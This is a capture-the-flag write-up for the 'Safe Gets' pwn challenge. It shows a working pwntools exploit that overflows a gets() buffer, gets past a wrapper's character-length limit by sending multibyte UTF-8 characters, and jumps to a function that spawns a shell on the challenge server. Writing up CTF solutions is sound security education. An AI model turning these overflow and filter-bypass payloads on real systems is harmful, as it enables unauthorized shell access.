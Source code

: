 ```yaml
---
title: Safe Gets
date: 2025-07-14T21:42:41+03:00
description: Writeup for Safe Gets [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I think I found a way to make gets safe.

## Intuition

If we take a look at it with Ghidra
```asm
        004011a5 48 8d 85        LEA        RAX=>local_118,[RBP + -0x110]
                 f0 fe ff ff
        004011ac 48 89 c7        MOV        RDI,RAX
        004011af b8 00 00        MOV        EAX,0x0
                 00 00
        004011b4 e8 e7 fe        CALL       FUN_004010a0                                     undefined FUN_004010a0()
                 ff ff
```
Where `FUN_004010a0` is just `gets`, we are given the entry point for a ROP exploit.\
A close look at other functions packaged in the executable also shows our destination.
```C
void win(void)

{
  system("/bin/sh");
  return;
}
```

## Solution

If we take a look at the protections enabled on the binary:
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
We see that no leak is needed, as the code is not Position Independent.\
The challenge comes from the wrapper that filters our inputs.
```python
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
# print(payload)
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```
If the first line is longer than `0xff` characters it gets denied, but the overflow requres around `0x110` bytes.\
A hint to help us bypass this limitation is given further down.
```python
        proc.stdin.write(line.encode('latin1'))
        proc.stdin.flush()
```
This has something to do with encoding.\
For UTF-8[^1] we learn that a character can be multiple bytes long, for example `অ` is 3 bytes long. Therefore sending the next line generates enough bytes for an overflow while remaining within the character count.
```python
pwin = 0x401262
paywin1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'aa' + pwn.p64(pwin)
target.sendlineafter(b'(max 255 bytes)', paywin1)
```
Now we get a stack not aligned error.\
No problem, we can jump back to main to align the stack. But doing that raises an error in the wrapper, that it cannot decode the input to utf-8.\
The Wikipedia article on UTF-8[^1] gives us information to make sense of that:
- 1 byte characters are of the form `0yyyzzzz`
- 2 byte characters are of the form `110xxxyy` `10yyzzzz`
- 3 byte characters are of the form `1110wwww` `10xxxxyy` `10yyzzzz`
- 4 byte characters are of the form `11110uvv` `10vvwwww` `10xxxxyy` `10yyzzzz`

In the address of main we have byte `0x96`. It is `10010110`, a valid encoding for at least the second byte in a UTF-8 character.\
Luckily for us, we are dealing with a little endian architecture, and `0x96` is the last byte in the address. That makes `0x96` the first byte that is not padding. This means that we can choose a byte of the form `110xxxyy` for the last padding byte, for example `0xC2`. It and our problem byte together form a valid character.

```python
pmain = 0x401196
paymain1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'a\xC2' + pwn.p64(pmain)
print(target.sendlineafter(b'(max 255 bytes)', paymain1).decode())
```
Another thing to note is that for the rest of the lines the wrapper encodes to `latin1`, and it removes the size limit, which necessitates another small adjustment.\
For a full exploit we would have:
```python
import pwn
pwn.context.terminal = ['konsole', '-e']

target = pwn.remote('34.45.81.67', 16002)

pmain = 0x401196
pwin = 0x401262

paymain1 = b'/bin/sh'[::-1] + b'\0' + 'অ'.encode() * 0x5A + b'a\xC2' + pwn.p64(pmain)
print(target.sendlineafter(b'(max 255 bytes)', paymain1).decode())

paywin2 = b'/bin/sh'[::-1] + b'\0' + b'b' * 0x10E + b'aa' + pwn.p64(pwin)
print(target.sendlineafter(b'/bin/sh', paywin2, timeout=2).decode())

target.interactive()
```
After that we get a shell and take the flag.

### Flag

`L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}`

## References

[^1]: https://en.wikipedia.org/wiki/UTF-8#Description

